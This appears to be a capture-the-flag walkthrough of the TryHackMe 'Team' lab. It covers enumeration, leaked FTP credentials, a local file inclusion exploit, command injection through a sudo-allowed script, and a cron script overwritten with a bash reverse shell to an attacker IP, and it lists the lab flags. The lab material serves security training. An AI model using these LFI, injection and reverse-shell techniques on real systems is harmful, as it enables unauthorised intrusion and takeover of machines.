 # [Challenge](https://tryhackme.com/room/teamcw)

# ENUM
## nmap (`nmap -A -p- -T4 --min-rate 5000 team`)
```nmap
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 37:09:8e:e8:e6:51:ac:89:0e:66:ec:56:22:3f:1a:ef (RSA)
|   256 2e:c5:6e:7a:a8:1d:c2:51:44:11:c5:93:8c:1e:b7:68 (ECDSA)
|_  256 6e:53:3e:1a:47:90:97:d8:92:5e:a6:89:37:3e:3c:38 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
# EXPLOITATION
There's a secret text in `/index.html`: "if you see this, add `team.thm` in your hosts!"
In `http://team.thm/` there's another page!
There's also a `robots.txt`: `dale` maybe the user?
There's a script in `http://team.thm/scripts/script.txt`:
```bash
#!/bin/bash
read -p "Enter Username: " REDACTED
read -sp "Enter Username Password: " REDACTED
echo
ftp_server="localhost"
ftp_username="$Username"
ftp_password="$Password"
mkdir /home/username/linux/source_folder
source_folder="/home/username/source_folder/"
cp -avr config* $source_folder
dest_folder="/home/username/linux/dest_folder/"
ftp -in $ftp_server <<END_SCRIPT
quote USER $ftp_username
quote PASS $decrypt
cd $source_folder
!cd $dest_folder
mget -R *
quit

# Updated version of the script
# Note to self had to change the extension of the old "script" in this folder, as it has creds in
```
Let's try checking `script.old`:  `ftpuser:T3@m$h@r3`
`New_site.txt`:
```
Dale
	I have started coding a new website in PHP for the team to use, this is currently under development. It can be
found at ".dev" within our domain.

Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.

Gyles
```
Let's add `dev.team.thm` to our `/etc/hosts` and let's check the new content:

```html
<html>
 <head> 
 <title>UNDER DEVELOPMENT</title> 
 </head> 
 <body> Site is being built<a href=script.php?page=teamshare.php </a> <p>Place holder link to team share</p>
  </body> 
 </html>
```
Let's try LFI: `http://dev.team.thm/script.php?page=../../../etc/passwd` it worked!
Let's open Owasp Zap to Fuzz (follow these commands, thanks to [dalemazza](https://dalemazza.github.io/thm/THM-Team-Walkthrough/))
```
- Run a Manual Explore on the following address http://dev.team.thm/script.php?page=/../../../../../../../etc/passwd
- Right click the history line with the correct URL on and go to Attack then Fuzz
- Highlight the following /etc/passwd and select add then add again
- From the drop down bar select file then browse to the LFI woprdlist /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt Then add again
- Click ok then start fuzzer
```
Dale's `id_rsa` in `/etc/ssh/sshd_config`! Let's connect to SSH: `ssh -i dale@dev.team.thm` and grab `user.txt`: `THM{6Y0TXHz7c2d}`
# PRIVILEGE ESCALATION
`sudo -l`: `(gyles) NOPASSWD: /home/gyles/admin_checks`
```bash
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```
We can write `/bin/bash` where it asks us "Enter 'date' to timestamp the file" to gain gyles' shell. Let's open an interactive shell: `python3 -c "import pty;pty.spawn('/bin/bash')"`
We can see that there's a writeble file: `/usr/local/bin/main_backup.sh` and it's also a cron!
Let's edit this file into this:
```bash
#/bin/bash
bash -i >& /dev/tcp/10.8.13.111/4444 0>&1
```
Let's wait a minute and... we're ROOT! 
`root.txt`: `THM{fhqbznavfonq}`



